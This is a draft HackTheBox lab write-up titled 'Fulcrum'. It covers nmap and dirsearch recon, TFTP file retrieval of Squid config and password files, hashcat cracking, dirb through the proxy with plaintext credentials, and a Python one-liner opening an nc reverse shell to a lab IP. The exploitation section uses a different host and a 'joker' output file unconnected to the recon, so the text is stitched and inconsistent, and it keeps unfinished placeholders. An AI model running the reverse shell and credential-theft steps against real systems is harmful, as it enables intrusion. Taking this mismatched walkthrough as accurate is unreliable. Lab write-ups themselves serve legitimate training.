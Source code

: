 ```yaml
---
layout: post
title: Fulcrum
tags: [HackTheBox, Nmap, Fulcrum, Squid]
---
```



# 0x00 : Recon

### Network Scan


Important thing here is to spot UDP services<br>
* -sC : --script=safe,intrusive
* -sV : get the running version of the services
* -p- : all 65535 ports
* -T4 : no more than 10ms dynamic delay
* -oA : output logs in all formats

{% highlight bash %}
   nmap -sC -sV -p- -T4 -oA nmap_allports_tcp.fulcrum 10.10.10.62
{% endhighlight %}


> Why all ports ?

explain ports

### Poking the website

{% highlight url %}
   http://10.10.10.62:4
{% endhighlight %}

Clic the link

{% highlight url %}
   http://10.10.10.62:4/index.php?page=home
{% endhighlight %}

We can try to connect to "home.php". If we can, that would mean that it automaticaly append ".php" to things.

{% highlight url %}
   http://10.10.10.62:4/home.php
{% endhighlight %}

Running dirsearch reveals 3 pages
{% highlight bash %}
   /opt/dirsearch/dirsearch.py -u http://10.10.10.62:4 -e asp,aspx,bat,c,cfm,cgi,com,dll,exe,html,inc,jhtml,jsa,jsp,log,mdb,nsf,php,phtml,pl,reg,sh,shtml,sql,txt,xml,/,js -x 403,400 --json-report=/home/cristal/Documents/HackTheBox/Fulcrum/dirsearch.fulcrum.json -t 25
{% endhighlight %}

/home.php
/index.php
/upload.php

> screenshot

Moving on to port 80, we've got a Microsoft IIS error while our nmap scan gave us some Ubuntu/Nginx header. Let's keep moving for now.

> screenshot

On port 88, we find a PHPMyAdmin page. But if we try to connect, we are greeted with the #2002 error which means there is no connection to the MySQL server.

> screenshot (or not)



<br><br>
# 0x01 : Exploitation

Once connected to the TFTP server we have to "poke" around, in order to determine where we are.
After a few trial and error, we can determine that the root of the TFTP server is the "/" or "root" of the box.
According to our authorizations we can download two interesting files, related to the Squid proxy :

{% highlight bash %}
  get /etc/squid/squid.conf
  get /etc/squid/passwords
{% endhighlight %}

Taking a look at the password file we can identify the hash as "Apache $apr1$ MD5, md5apr1, MD5ARP" according to this [hashcat cheatsheet](https://www.dropbox.com/s/kdklrowv683yq1a/HashcatCheatSheet.v2018.1b%20%282%29.pdf?dl=0).
All we have to do then is pass the hash without the username to hashcat :

{% highlight bash %}
  hashcat -m 1600 hash.txt rockyou.txt
{% endhighlight %}

Now that we've got a username and a password, we can configure our browser with those credentials to connect to that proxy.
Once connected, address 127.0.0.1 reveals an URL shortener kinda app.
Before going further, let's launch a scan in the background :
{% highlight bash %}
  dirb http://127.0.0.1:80 -p 10.10.10.21:3128 -P kalamari:ihateseafood -o dirb.joker.txt
{% endhighlight %}
* -p : specifies the proxy address
* -P : specifies the credentials for that proxy
* -o : save the output to a file
The "list" directory shows the list of previously shortned URL.
The "console" page reveals... a python console !
> screenshot<br>
> determine python version<br>
{% highlight bash %}
  import os;os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u <LAB IP> <PORT> >/tmp/f &").read()
{% endhighlight %}
> python reverse shell UDP ?<br>

Big thanks to [ippsec](https://twitter.com/ippsec) for his great [videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and kind answers
